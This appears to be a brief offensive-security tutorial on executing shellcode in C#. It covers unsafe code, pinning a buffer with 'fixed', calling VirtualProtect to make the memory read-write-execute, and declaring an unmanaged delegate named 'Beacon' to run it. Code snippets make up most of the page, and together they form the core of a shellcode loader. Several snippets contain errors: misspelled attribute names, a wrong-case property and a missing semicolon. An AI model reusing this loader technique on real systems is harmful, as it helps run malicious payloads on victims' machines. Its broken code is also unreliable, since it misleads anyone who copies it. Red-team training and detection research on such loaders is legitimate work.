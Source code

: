 ## Function Delegate CSharp

As with C++ in C# shellcode can be executed one it's sitting in a local buffer. First modify the project settings to prefer 64-bit and allow unsafe code.

C# as a managed code shouldn't allow direct access to memory via pointers, changing these settings allows us to bypass the CLR and garbage collectors. With that though it's important to note that it isn't any different than usual manual memory management of C++.

The fixed keyword can be used to access a pointer to the memory of an underlying variable, and will prevent the garbage collector from moving or reallocating the data.

```
unsafe{
fixed (byte* ptr = shellcode)
{}
}
```

You can also mark methods as unsafe:

```
[DLLImport("kernel32.dll")]
static extern unsafe bool VirtualProtect(
byte* lpAddress,
uint dwSize,
MEMORY_PROTECTION flNewProtect,
out MEMORY_PROTECTION lpflOldProtect);

enum MEMORY_PROTECTION : uint
{
PAGE_EXECUTE_READ = 0x20,
PAGE_EXECUTE_READWRITE = 0x40,
PAGE_READWRITE = 0x04
}
```

This allows us to mark the heap memory as RWX inside the unsafe code block:
```
unsafe{
fixed (byte* ptr = shellcode)
{
VirtualProtect(ptr,
(uint)shellcode.length,
MEMORY_PROTECTION.PAGE_EXECUTE_READWRITE,
out _)
}
}
```

To execute the shellcode we need to marshal a pointer to a function delegate:

```
[UnmagagedFunctionPointer(CallingConvention.StdCall)]
delegate void Beacon();
```
